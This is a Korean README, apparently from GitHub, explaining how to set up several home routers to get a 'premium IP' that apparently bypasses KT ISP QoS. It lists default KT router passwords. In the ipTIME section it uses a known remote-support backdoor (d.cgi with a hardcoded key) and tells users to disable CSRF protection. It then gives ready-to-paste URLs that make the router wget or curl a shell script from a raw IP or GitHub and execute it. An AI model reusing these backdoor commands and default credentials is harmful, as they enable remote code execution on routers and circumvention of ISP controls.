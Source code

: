 ## 넷기어 (예시로서 나이트호크 RAX80)

<img width="1424" alt="Nighthawk_RAX80" src="https://github.com/user-attachments/assets/c5c1ba09-4d63-4d28-8e2b-3f1344e36719" />

## 시놀로지RT (예시로서 RT1900ac)

![RT1900ac](https://github.com/user-attachments/assets/5ea5243e-821a-42c5-a18d-e3f2dcd5319e)

## KT GiGA WiFi에서 수동IP설정 대신 '수동 IP 할당 설정'**(DHCP 정적 할당, 일부 기기만 지원)** 을 사용하기
KT GiGA WiFi와 연결된 기기에서 http://172.30.1.254:8899 , 구성되지 않은 경우 ID는 ktuser , 비번은 megaap 또는 homehub 로 로그인 후 새로운 사용자 이름과 비번을 설정하여 사용자 설정 페이지에 접근할 수 있습니다\:

장치설정 - 네트워크 관리 - LAN 연결 설정

머큐리 - 148을 지우고 252를 입력한 다음, 적용 버튼을 누르지 않고 **각 기기**의 MAC 주소를 입력하여 설정을 추가

다보링크 - 148을 지우고 252를 입력한 다음, 적용 버튼을 누르고 **각 기기**의 MAC 주소를 입력하여 설정을 추가

![StaticLeasePremiumIP_KTGiGAWiFi](https://github.com/user-attachments/assets/9d7bda7f-f1a5-4663-8435-f91347cf6cbf)

__변경 사항은 다음에 유선 또는 무선으로 연결될 때 적용되므로 KT GiGA WiFi를 재시동하거나 각 기기의 네트워크 연결을 끊었다가 다시 연결해야 할 수 있습니다.__
## iptime
백도어 출처 - https://github.com/tylzars/iptime-debug - 펌웨어 버전 15.10.0, ipTIME A2004S에서 동작 확인됨

위 출처와 같이 iptime 공유기의 '원격 지원'기능에 잠재된 백도어에 접근할 방법이 있는 경우에만 유효합니다

<a href="https://github.com/veilRedeemer/udhcp/releases">미리 빌드된 udhcpc 출처</a>

1. 적용하려는 기기는 관리자 계정/비밀번호가 설정되어 있어야 하며, 다음으로 '악성 스크립트 접근 방지(CSRF)'기능이 꺼져 있으며, 마지막으로 '원격 지원'기능이 켜져 있어야 합니다:
<img width="285" alt="iptime1" src="https://github.com/user-attachments/assets/ef4882cc-03a4-4478-acd1-a0418048dca0" />

2. 아래 주소 중 상황에 맞는 적절한 **하나**의 '⧉'를 선택하여 복사 후 로그인한 관리자 페이지의 주소 칸에 붙여넣어 마칩니다.<br>
먼저 첫번째 주소는, 아래 스크린샷과 같이 'wget: not an http or ftp url' 메시지가 출력되며 원본 링크의 암호화된 연결을 지원하지 않는 환경에서 사용할 수 있는 미러 링크로서, 접속자의 IP 주소와 타임스탬프를 포함한 접속 기록을 저장함에 동의하고 사용하세요:
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20http%3a%2f%2f168.138.196.144%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
<img width="498" alt="notls" src="https://github.com/user-attachments/assets/6ee27eda-0b7f-4213-a868-7a118907b1d3" />

또는 둘 중 사용자의 환경에서 사용 가능한 원본 링크 사용:
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=curl%20-Lo%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
```
http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh
```
3. 아래와 같이 표시되면 성공. 다운로드한 데이터와 **취득한 프리미엄 IP를 포함**하여 2번 이후의 변경 사항은 특정 공유기 설정을 변경하거나 재시동되거나 전원이 끊어지면 지워집니다:
<img width="333" alt="iptime2" src="https://github.com/user-attachments/assets/fa6ee8d4-9990-4f80-8d70-8ad551737b36" />

